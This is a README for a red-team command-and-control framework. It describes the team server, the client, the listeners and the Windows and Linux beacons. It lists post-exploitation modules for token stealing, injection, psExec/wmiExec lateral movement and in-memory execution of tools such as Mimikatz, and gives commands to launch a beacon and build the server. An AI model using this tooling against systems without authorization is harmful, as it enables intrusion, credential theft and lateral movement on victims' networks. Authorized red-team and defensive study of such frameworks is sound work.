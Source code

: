 # Exploration C2

## What it is

Exploration is a rudimentary red team command and control framework.  
This repository contains the TeamServer and the Client.

## Introduction

The TeamServer is a stand alone application, coded in c++, that handle listeners. The client, coded in python, communicate with the TeamServer through GRPC.  
Beacons run on the victime host. Each Beacons which connects back to the TeamServer open a new session. This session is used to control the Beacon, send commands and receive results.  
Listener and Beacons can communicate through TCP, SMB, HTTP ,HTTPS and Github issues depending on the situation.

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/ListenersAndSessions.png?raw=true)

A compiled static version of the TeamServer is ready to use in Release, with some default certificats for GRPC communication and HTTP Listener:

The TeamServer binary is in ./Release/TeamServer  
it's launched using 

```
./TeamServer
```

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/TeamServerLaunch.png?raw=true)

The Python Client is in ./Release/Client 
It's launched using 'python3 GUI.py'  

```
python3 GUI.py
```

## TeamServer Listeners

4 types of listeners are available from the TeamServer: HTTP, HTTPS that start a web server on the given port, TCP that start a TCP server on the given port and GitHub that use GitHub issues from a project like "maxDcb/C2TeamServer" and a personal access token (with issues write rights).

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/AddListener.png?raw=true)

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/AddListenerTypes.png?raw=true)

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/Listeners.png?raw=true)


## Beacons

### Windows Beacon

Winodws Beacons and command modules are compiled separately in another [project](https://github.com/maxDcb/C2Implant), but a compiled version is provided in ./Release/Beacons and ./Release/Modules to be able to use it directly.

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/ReleaseModulesBeacons.png?raw=true)

```
.\BeaconHttp.exe 10.10.52.5 8443 https
```

When the Beacon is started and connect to the TeamServer, a new session is started from where you can interact with the Beacon:

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/NewSession.png?raw=true)

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/SessionInteract.png?raw=true)

Windows beacon uses primarily windows API and start with no module loaded. Modules are loaded at runtime using "MemoryModule" project to load DLL sent by the TeamServer to the beacon.  

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/loadModule.png?raw=true)

| Modules          |
| :--------------- |
| assemblyExec     |
| upload           |
| download         |
| run              |
| script           |
| inject           |
| pwd              |
| cd               |
| ls               |
| ps               |
| makeToken        | 
| rev2self         | 
| stealToken       | 
| coffLoader       |
| loadModule       | 
| powershell       | 
| kerberosUseTicket| 
| psExec           | 
| wmiExec          | 
| spawnAs          | 
| chisel           | 
| tree             | 

AssemblyExec & Inject, that use Donut project, make it possible to launch binary EXE, DLL, managed or unmanaged direclty from memory on the remote host.

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/AssemblyExecMimikatz.png?raw=true)

Coff, that use COFFLoader project, is used to run Coff files.  

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/coffDir.png?raw=true)

Two side projects can be used to deliver the beacons:
* [PowershellWebDelivery](https://github.com/maxDcb/PowershellWebDelivery)
* [PeDropper](https://github.com/maxDcb/PeDropper)


### Linux Beacon

A very basic Linux Beacons coded in python and can be found here: [C2ImplantPy](https://github.com/maxDcb/C2ImplantPy).

An other very basic Linux Beacons coded in Nim and can be found here: [C2ImplantPy](https://github.com/maxDcb/C2ImplantNim).


## Build the TeamServer

### Sumbodule & External Projects:  

* [Donut](https://github.com/TheWover/donut): Creat shellcode from PE files.  
* [cpp-httplib](https://github.com/yhirose/cpp-httplib): Http and Https Listener.  
* [CoffLoader](https://github.com/trustedsec/COFFLoader): Run object files from [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF).
* [MemoryModule](https://github.com/fancycode/MemoryModule): Load DLL at runtime.
* [UnmanagedPowerShell](https://github.com/leechristensen/UnmanagedPowerShell): Powershell for unmanaged code.
* [cpp-base64](https://github.com/ReneNyffenegger/cpp-base64): base64.
* [json](https://github.com/nlohmann/json): json parser.


### Build

```
sudo apt install gcc-mingw-w64
sudo apt install g++-mingw-w64
sudo apt install golang-cfssl
sudo apt install cmake 

pip3 install pycryptodome
pip install conan
pip install grpcio
pip install PyQt5
pip install pyqtdarktheme
pip install protobuf

conan profile detect

git clone https://github.com/maxDcb/C2TeamServer.git
cd C2TeamServer
git submodule update --init

mkdir build
cd build
cmake ..
make -j4
```

The TeamServer binary is in ./Release/TeamServer  
it's launched using './TeamServer'  

The Python Client is in ./Release/Client  
It's launched using 'python3 GUI.py'  

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/ReleaseTeamServerClient.png?raw=true)

